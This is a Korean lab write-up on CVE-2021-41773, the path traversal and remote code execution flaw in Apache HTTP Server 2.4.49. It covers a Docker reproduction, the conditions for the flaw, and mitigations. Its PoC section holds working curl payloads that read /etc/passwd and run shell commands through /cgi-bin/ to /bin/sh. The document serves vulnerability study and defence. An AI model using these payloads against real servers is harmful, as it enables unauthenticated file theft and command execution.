




CVE-2021-41773: Apache HTTP Server 2.4.49 경로 탐색 및 원격 코드 실행

Contributors

- garry15907 (WHS 4기 3반 서승린_9585)

 
취약점 요약

2021년 10월 공개된 Apache HTTP Server 2.4.49의 경로 정규화(path normalization) 로직 결함입니다.
URL을 파일 경로로 매핑하는 과정에서 %2e(인코딩된 .)로 시작하는 경로 세그먼트가 제대로 정규화되지 않아, Alias/ScriptAlias로 매핑된 디렉터리를 기준으로 상위 디렉터리로 이동(경로 탐색)할 수 있습니다.
이동한 경로가 기본 접근 제어(Access control)로 보호되지 않는 경우 임의 파일 열람이 가능하며, mod_cgi/mod_cgid가 활성화된 상태에서 /cgi-bin/ 별칭을 통해 /bin/sh 같은 실행 파일까지 경로 탐색으로 도달하면 인증 없이 임의 명령 실행(RCE)으로 이어집니다.
2.4.50에서 1차 패치되었으나 우회가 가능해 별도로 CVE-2021-42013이 발급되었고, 완전한 수정은 2.4.51에서 이루어졌습니다. 본 보고서는 최초 취약 버전인 2.4.49를 대상으로 합니다.

CVSS 3.1 기준은 9.8 (Critical) 입니다. 공격 조건: 네트워크 접근만 필요, 인증 불필요, 사용자 상호작용 불필요.

 
환경 구성

Docker Hub의 공식 httpd:2.4.49 이미지를 기반으로, 아래 3가지 설정을 직접 적용해 취약한 상태를 재현합니다. (외부에서 이미 구성된 취약 이미지를 그대로 사용하지 않고, Dockerfile에 모든 변경 사항을 명시했습니다.)

mod_cgi, mod_cgid 모듈 활성화 
httpd-autoindex.conf include 활성화 → /icons/ Alias 활성화 (파일 읽기 PoC용)
루트 <Directory /> 블록을 Require all denied → Require all granted 로 완화 (2.4.49로 업그레이드하며 실제로 흔히 발생했던 설정 실수를 재현 했습니다)

파일 구조는 다음과 같습니다.

실행 방법은 다음과 같습니다.

git clone /fork한 본인 git 주소/
cd kr-vulhub/Apache/CVE-2021-41773
docker compose up -d --build

빌드가 정상적으로 끝나면, 아래와 같이 이미지 빌드/컨테이너 기동 로그가 출력됩니다.

docker compose ps 로 컨테이너가 정상적으로 실행된 상태인지 확인합니다.

정상적으로 기동되면 http://<서버 IP>:8080/ (필자 실행 환경에서는 localhost:8080) 접속 시 Apache의 기본 페이지인 It works!가 표시됩니다.

 
취약 조건

가장 중요한 것은 Apache HTTP Server 버전이 정확히 2.4.49로 환경 구성을 진행하는 것입니다. (2.4.50 이상은 1차 패치 적용가 되었고, 2.4.51 이상은 완전히 막힌 취약점이기 때문)
mod_cgi 또는 mod_cgid 모듈이 활성화되어 있어야 원격 코드 실행까지 이어집니다. (파일 읽기만 목적이라면 이 조건은 생략 가능!)
경로 탈출의 시작점이 되는 Alias/ScriptAlias 매핑(/icons/, /cgi-bin/ 등)이 존재해야 합니다.
요청 경로에 Require all denied 로 보호되지 않는 상위 디렉터리로 이동 가능해야 하며, 본 환경은 이를 위해 루트 <Directory /> 를 완화했습니다.

추가로 알면 좋은 내용!! (일반적인 애플리케이션 경로 탐색과의 차이): 흔히 알려진 경로 탐색(예: /loadImage?filename=../../../etc/passwd)은 애플리케이션이 사용자 입력값(filename)을 그대로 파일 경로에 이어붙여서 발생하며, 화이트리스트 검증 / realpath 기반 BasePath 검증, ID 간접 참조 같은 애플리케이션 코드 레벨의 방어로 막을 수 있습니다. 반면 CVE-2021-41773은 애플리케이션 코드가 아니라 Apache HTTP Server 자체의 URL-파일 경로 매핑(정규화) 로직에서 발생하는 결함이라, 애플리케이션 단에서 손볼 수 있는 부분이 없고 웹서버 버전 업그레이드와 서버 설정 강화로만 대응할 수 있습니다.

 
재현 절차

docker compose up -d --build 로 취약 환경을 기동합니다.
curl -s http://localhost:8080/cgi-bin/test.sh 로 cgi-bin이 정상적으로 스크립트를 실행하는지 확인합니다. (baseline)
--path-as-is 옵션과 %2e 인코딩된 경로 탐색 페이로드로 /icons/ Alias를 통해 /etc/passwd를 요청합니다.
mod_cgi가 활성화된 /cgi-bin/ Alias를 통해 실제 파일이 아닌 /bin/sh 자체를 경로 탐색으로 호출하고, POST 바디로 셸 명령을 전달하여 실행 결과를 확인합니다.

 
PoC 코드

poc.sh (저장소에 포함, 실행 권한만 부여하면 바로 사용 가능):

bash#!/bin/bash
TARGET="${1:-127.0.0.1:8080}"

# [1] baseline: cgi-bin 실행 확인
curl -s "http://${TARGET}/cgi-bin/test.sh"

# [2] Path Traversal - 임의 파일 읽기
curl -s --path-as-is "http://${TARGET}/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# [3] Remote Code Execution - /bin/sh 직접 호출 (--path-as-is 필수)
curl -s --path-as-is --data 'echo Content-Type: text/plain; echo; id; hostname; uname -a' \
  "http://${TARGET}/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"

단일 명령으로도 재현 가능합니다:

bash# 파일 읽기
curl -v --path-as-is "http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 원격 코드 실행
curl -v --path-as-is --data "echo Content-Type: text/plain; echo; id" \
  "http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"

주의 사항: 두 요청 모두 --path-as-is 옵션이 반드시 필요합니다. 최신 버전의 curl(8.x 이상)은 기본적으로 URL 경로의 dot-segment(.%2e 등 인코딩된 형태 포함)를 클라이언트 단에서 자체적으로 정규화합니다. 이 옵션 없이 요청하면 서버에는 /cgi-bin/...가 아니라 이미 축약된 최종 경로(예: /bin/sh)만 전달되어 404 Not Found가 발생하고 취약점이 재현되지 않습니다. (docker compose logs apache로 실제 서버에 도달한 요청 라인을 확인하면 축약 여부를 바로 알 수 있습니다.)

 
실행 결과

/icons/ Alias를 통한 경로 탐색으로 /etc/passwd 내용이 그대로 노출됩니다.

/cgi-bin/ Alias 아래에서 mod_cgi가 활성화된 상태로 /bin/sh를 직접 호출하면, POST 바디로 전달한 id, hostname, uname -a 명령이 컨테이너 내부(root 권한, httpd 마스터 프로세스가 워커를 fork하는 시점 기준)에서 그대로 실행되어 결과가 응답 본문에 출력됩니다.

 
대응 방안

버전 업그레이드가 최우선입니다. Apache HTTP Server를 2.4.51 이상으로 업데이트하면 근본적으로 해결됩니다.
부득이하게 즉시 업그레이드가 어렵다면, 루트 <Directory /> 블록에 Require all denied 를 반드시 유지하고, /icons/, /cgi-bin/ 등 개별 Alias 디렉터리 이외의 위치에는 절대 Require all granted 를 적용하지 않습니다.
mod_cgi/mod_cgid, mod_cgi 기반 ScriptAlias 는 실제로 필요한 경우가 아니면 비활성화합니다.
WAF(예: mod_security) 규칙으로 %2e 인코딩이 반복되는 경로 탐색 패턴을 차단하는 것은 임시 완화책일 뿐, 근본 대책은 아닙니다.
운영 환경에서는 컨테이너/프로세스를 최소 권한 사용자로 구동하여, RCE가 발생하더라도 피해 범위를 제한합니다.